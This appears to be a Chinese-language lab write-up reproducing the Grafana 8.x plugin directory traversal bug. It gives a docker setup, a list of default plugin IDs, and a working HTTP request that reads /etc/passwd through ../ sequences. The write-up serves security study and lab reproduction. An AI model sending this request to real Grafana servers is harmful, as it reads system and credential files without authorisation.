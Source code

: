 # Grafana 8.x 插件模块目录穿越漏洞

Grafana是一个开源的度量分析与可视化套件。在2021年12月，推特用户@j0v 发表了他发现的一个0day，攻击者利用这个漏洞可以读取服务器上的任意文件。

参考链接：

- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## 漏洞环境

执行如下命令启动一个Grafana 8.2.6版本服务器：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:3000`即可查看登录页面，但是这个漏洞是无需用户权限的。

## 漏洞复现

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用`../`的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的`alertlist`换成其他合法的插件id）：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
